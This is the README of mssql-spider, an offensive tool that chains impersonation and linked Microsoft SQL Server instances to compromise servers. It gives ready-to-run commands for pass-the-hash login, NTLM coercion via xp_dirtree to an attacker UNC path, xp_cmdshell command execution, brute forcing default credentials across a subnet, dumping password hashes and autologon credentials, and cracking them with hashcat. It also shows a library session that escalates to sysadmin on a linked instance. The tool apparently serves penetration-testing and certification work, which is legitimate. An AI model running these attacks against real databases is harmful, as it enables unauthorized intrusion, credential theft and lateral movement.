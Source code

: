 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that exploits user impersonation and follows linked instances to discover and compromise as many Microsoft SQL Servers as it can reach.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/skahwah/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

> **Warning:** Although this project was successfully tested in the lab and solves the OSEP Challenge 2 automatically, it is still kinda work in progress.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

# Usage

Authenticate as local user and enumerate recursively.

~~~ bash
mssql-spider -u jdoe -p passw0rd db01.corp.local
~~~

Authenticate as domain user via *Pass the Hash* and coerce NTLM authentication from all reachable hosts trough `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-spider -d corp.local -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 --coerce-dirtree '\\attacker.corp.local\test' ./mssql-servers.txt
~~~

Authenticate via Kerberos and execute a command trough `xp_cmdshell` on all hosts where you can obtain sysadmin privileges.

~~~ bash
mssql-spider -k -n -x 'whoami /groups' db01.corp.local:50123 db02.corp.com:1433
~~~

Brute force default credentials.

~~~ bash
mssql-spider --credentials ./assets/default-credentials.txt 192.168.178.0/24
~~~

Detailed help:

~~~
positional arguments:
  HOST[:PORT]|FILE

options:
  -h, --help                                              show this help message and exit
  --depth UINT                                            default: 10
  --threads UINT                                          default: based on CPU cores
  --timeout SECONDS                                       default: 5
  --debug                                                 write verbose log to stderr

authentication:
  -d DOMAIN, --domain DOMAIN                              implies -w
  -u USERNAME, --user USERNAME
  -p PASSWORD, --password PASSWORD
  -n, --no-pass                                           disable password prompt, default: false
  -H [LMHASH]:NTHASH, --hashes [LMHASH]:NTHASH            authenticate via pass the hash
  -a HEXKEY, --aes-key HEXKEY                             authenticate with Kerberos key in hex, implies -k
  -w, --windows-auth                                      use windows instead of local authentication, default: false
  -k, --kerberos                                          authenticate via Kerberos, implies -w, default: false
  -K ADDRESS, --dc-ip ADDRESS                             FQDN or IP address of a domain controller, default: value of -d
  -D NAME, --database NAME

enumeration:
  -q SQL, --query SQL                                     execute SQL statement, unprivileged
  --sysinfo                                               retrieve database and OS version, unprivileged

coercion:
  -c UNCPATH, --coerce-dirtree UNCPATH                    coerce NTLM trough xp_dirtree(), unprivileged
  --coerce-fileexist UNCPATH                              coerce NTLM trough xp_fileexist(), unprivileged
  --coerce-openrowset UNCPATH                             coerce NTLM trough openrowset(), privileged

filesystem:
  --fs-read REMOTE                                        read file trough openrowset(), privileged
  --fs-write LOCAL REMOTE                                 write file trough OLE automation, privileged

execution:
  -x COMMAND, --exec-cmdshell COMMAND                     execute command trough xp_cmdshell(), privileged
  --exec-ole COMMAND                                      execute blind command trough OLE automation, privileged
  --exec-job sql|cmd|powershell|jscript|vbscript COMMAND  execute blind command trough agent job, privileged, experimental!

registry:
  --reg-read HIVE KEY NAME                                read registry value, privileged, experimental!
  --reg-write HIVE KEY NAME TYPE VALUE                    write registry value, privileged, experimental!
  --reg-delete HIVE KEY NAME                              delete registry value, privileged, experimental!

credentials:
  --dump-hashes                                           extract hashes of database logins, privileged
  --dump-jobs                                             extract source code of agent jobs, privileged
  --dump-autologon                                        extract autologon credentials from registry, privileged
~~~

Dumped database password hashes can be cracked with [hashcat](https://github.com/hashcat/hashcat).

~~~ bash
hashcat -O -w 3 -a 0 -m 1731 --username ./hashes.txt ./rockyou.txt
~~~

## Usage as library

~~~
❯ python3
>>> from mssql_spider.client import MSSQLClient
>>> client = MSSQLClient.connect('192.168.118.140', 1433)
>>> client.login(username='webapp11', password='passw0rd', windows_auth=False)
>>> client.enum_links()
{'SQL11\\SQLEXPRESS': {'local_login': 'NULL', 'remote_login': 'NULL'}, 'SQL27': {'local_login': 'webapp11', 'remote_login': 'webappGroup'}, 'SQL53': {'local_login': 'webapp11', 'remote_login': 'testAccount'}}
>>> linked_instance = client.use_link('SQL27')
>>> linked_instance.whoami()
{'host': 'sql27', 'login': 'sa', 'user': 'dbo', 'roles': {'db_denydatareader', 'dbcreator', 'db_datareader', 'public', 'db_denydatawriter', 'db_accessadmin', 'setupadmin', 'serveradmin', 'db_backupoperator', 'diskadmin', 'bulkadmin', 'db_owner', 'securityadmin', 'sysadmin', 'db_datawriter', 'processadmin', 'db_ddladmin', 'db_securityadmin'}}
~~~
